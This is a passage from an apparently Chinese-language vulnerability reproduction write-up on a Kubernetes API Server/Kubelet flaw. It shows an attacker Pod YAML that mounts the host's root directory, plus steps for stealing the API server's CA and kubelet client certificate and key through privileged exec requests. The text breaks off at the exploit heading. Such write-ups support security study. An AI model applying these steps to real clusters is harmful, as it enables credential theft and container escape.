 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202112061556183.png-water_print](assets/1699410706-fcebe1128a56dcd2334983f38af9caf8 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202112061556183.png-water_print")

#### [](#333-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)3.3.3 漏洞复现

目标：通过该漏洞，进行提权，创建一个挂载主机根目录的 Pod，实现容器逃逸。

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>``` | ```yaml<br># attacker.yaml<br>apiVersion: v1<br>kind: Pod<br>metadata:<br>  name: attacker<br>spec:<br>  containers:<br>  - name: ubuntu<br>    image: ubuntu:latest<br>    imagePullPolicy: IfNotPresent<br>    # Just spin & wait forever<br>    command: [ "/bin/bash", "-c", "--" ]<br>    args: [ "while true; do sleep 30; done;" ]<br>    volumeMounts:<br>    - name: escape-host<br>      mountPath: /host-escape-door<br>  volumes:<br>    - name: escape-host<br>      hostPath:<br>        path: /<br>``` |

思路：

1.  构造错误请求，建立经 Kubernetes API Server 代理到 Kubelet 的高权限 WebSocket 连接。
2.  利用高权限 Websocket 连接，向 Kubelet 发起 `/runningpods/` 请求，获得当前活动 Pod 列表。
3.  从活动 Pod 列表中找到 Kuberetes API Server 的 Pod 名称。
4.  利用高权限 WebSocket 连接，向 Kubelet 发起 `/exec` 请求，指定 Pod 为上一步中获得的 Pod 名称，携带“利用 cat 命令读取 ca.crt”作为参数，从返回结果中保存窃取到的文件。
5.  利用高权限 WebSocket 连接，向 Kubelet 发起 `/exec` 请求，指定 Pod 为上一步中获得的 Pod 名称，携带“利用 cat 命令读取 `apiserver-kubelet-client.crt` ”作为参数，从返回结果中保存窃取到的文件。
6.  利用高权限 WebSocket 连接，向 Kubelet 发起 `/exec` 请求，指定 Pod 为上一步中获得的 Pod 名称，携带“利用 cat 命令读取 apiserver-kubelet-client.key”作为参数，从返回结果中保存窃取到的文件
7.  使用 kubectl 命令行工具，指定访问凭证为第 4、5、6 步中窃取到的文件，创建挂载了宿主机根目录的 Pod，实现容器逃逸。

EXP 如下：

|     |     |     |
| --- | --- | --- |